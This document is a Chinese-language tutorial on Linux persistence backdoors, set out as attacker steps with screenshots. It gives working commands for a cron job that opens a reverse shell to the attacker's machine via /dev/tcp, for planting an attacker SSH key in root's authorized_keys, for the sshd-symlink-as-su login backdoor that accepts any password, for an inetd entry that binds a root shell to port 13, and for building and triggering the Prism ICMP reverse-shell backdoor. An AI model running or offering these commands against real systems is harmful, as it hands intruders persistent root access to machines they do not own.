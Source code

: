 # Linux后门

### 计划任务后门crontab

> Crontab 命令被用来提交和管理用户的需要周期性执行的任务，与windows下的计划任务类似  
> 当安装完成操作系统后，默认会安装此服务工具，并且会自动启动 crond 进程，crond 进程每分钟会定期检査是否有要执行的任务，如果有要执行的任务，则自动执行该任务

##### 相关命令

```bash
crontab [-u user] -e :编辑某个用户的crontab文件内容
crontab [-u user] -1 :显示某个用户的crontab文件内容
crontab [-u user] -[i]r :从/var/spool/cron目录中删除某个用户的crontab文件，-i参数指定在删除用户的crontab文件时是否有确认提示
```

语法

|代表意义|分钟|小时|日期|月份|周|命令|
| ----------| ------| ------| ------| ------| -----| ------|
|范围|0-59|0-23|1-31|1-12|0-7||

##### 步骤

1. 在攻击机中进行监听

    ```bash
    nc -lvvp 监听端口号
    nc -lvvp 6666
    ```

    ![image](assets/image-20241031161038-vsdkz5v.png)​
2. 目标机写入计划任务

    ```bash
    crontab -e 
    */1 * * * * bash -i >& /dev/tcp/攻击机/端口 0>&1
    [root@CentOS7 ~]# crontab -e 
    */1 * * * * bash -i >& /dev/tcp/192.168.134.128/6666 0>&1
    
    ```

    ​![image](assets/image-20241031164346-yq36ztc.png)​​​​
3. 目标机自动执行后，攻击机获得反弹shell

    ![image](assets/image-20241031164313-43j8noi.png)​

### ssh公钥免密

> **公私钥原理**
>
> 公私钥同时生成，公钥用于加密，私钥用于解密。公钥外持私钥内持
>
> ssh服务中，只需公钥放在服务器A上，就可以通过通过私钥登录到服务器A中
>
> ‍
>
> 将客户端生成的ssh公钥写到目标服务器的 ~/.ssh/authorized_keys中，之后客户端利用私钥完成认证即可登录
>
> 该后门比较容易被发现
>
> 在中途会让输入密钥对的密码，由于需要实现免密登录，所以回车跳过即可

‍

##### 步骤

攻击机生成公钥/私钥对

```bash
ssh-keygen -t rsa
```

![image](assets/image-20241031164923-i2up00d.png)​

将攻击机.ssh目录下的id_rsa.pub复制到目标服务器的/root/.ssh、authorized_keys文件里

```bash
scp ~/.ssh/id_rsa.pub root@目标ip地址:/root/.ssh/authorized_keys
```

​![image](assets/image-20241031175942-1oavjaj.png)​​

目标服务器中，将authorized_keys的权限改为600

```bash
chmod 600 /root/.ssh/authorized_keys
```

![image](assets/image-20241031180022-x8go1h2.png)​

免密连接目标服务器

```bash
ssh root@192.168.134.132
```

![image](assets/image-20241031180101-vtmqllg.png)​

### ssh软连接后门

> ssh软连接后门是一种经典后门，直接对sshd建立软链接，之后用任意密码就可以登录
>
> **软连接后门的原理**
>
> 是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，su在pam rootok只检测uid 0 即可认证成功，也可以使用其他软连接名字，但是文件必须得在/etc/pam.d目录下存在。  
>
> 特点:
>
> 1. 隐蔽性较弱，适一般的rookit hunter这类的防护脚本就可以扫描到；
> 2. 在本地查看端口号时会暴露端口，建议进行伪装
> 3. 能够绕过一些网络设备的安全流量监控

‍

##### 步骤

创建软链接，设置监听端口(伪装成常见端口)

```bash
ln -sf  /usr/sbin/sshd /tmp/su
/tmp/su -oPort=8081
```

![image](assets/image-20241031180306-kuddcdf.png)​

尝试使用ssh连接目标服务器，使用**任意密码**都可以登录

```bash
ssh root@192.168.134.132 -p 8081
```

![image](assets/image-20241031180427-6nzyc9c.png)​

### inetd/xined后门  13端口

> 用来监听外部网络请求socket的系统守护进程，
>
> 过程：当inetd接收到一个外部请求后，会根据这个请求到自己的配置文件中去找到实际处理它的程序，再把接收到socket交给那个程序处理
>
> inetd  --- kali
>
> xined  --- centos

‍

##### 步骤

###### centos安装inetd步骤

```bash
yum  -y  install  xinetd                           --使用yum安装
systemctl  enable  xinetd.service             --开机启用xinetd服务

systemctl  list-unit-files  |  grep  xinetd       --列出xinetd服务是否开机启动
systemctl  is-enabled  xinetd                       --列出xinetd服务是否开机启动
```

###### kali

安装步骤

```bash
apt-get install openbsd-inetd
```

设置后门并连接

向/etc/inetd.conf文件中加入一行：daytime stream tco nowait root /bin/bash bash -i

​![image](assets/image-20241031201707-vpecsp7.png)​​​​![image](assets/image-20241031202004-wgnm0fh.png)​​

​

开启inet 之后使用nc连接  nc -lvvp 目标IP 13

```bash
systemctl status inetd     查看状态
systemctl start inetd      开启服务
systemctl enable inetd.service
```

​![image](assets/image-20241031202137-p6pqd8a.png)​​

```bash
nc -v 192.168.134.150 13
```

![image](assets/image-20241031202308-bg4alqf.png)​

### Prism后门

> prism工具：https://github.com/andreafabrizi/prism
>
> 是Linux下的icmp反弹后门工具，使用时将会在后台等待特定的主机/端口连接信息的ICMP数据包

‍

##### 步骤

编译prism.c文件

```bash
gcc -DDETACH -Wall -s -o prism prism.c
```

![image](assets/image-20241031180753-i1xxar7.png)​

编译完成后，查看prism后门配置信息

```bash
./prism Inf0
```

​![image](assets/image-20241031180923-3w4w3ze.png)​​

将该后门上传到目标机中，再以root用户运行sendPacket.py脚本

```bash
sudo python2 ./sendPacket.py 目标IP 密码 攻击机ip 端口
[root@CentOS7 tmp]# sudo python2 ./sendPacket.py 192.168.134.132 p4ssw0rd 192.168.134.128 6767
```

![image](assets/image-20241031181206-jvok58v.png)​

攻击机监听相关端口 等待后门连接

```bash
nv -lvvp 监听端口
```

![image](assets/image-20241031181217-cd06ut5.png)​

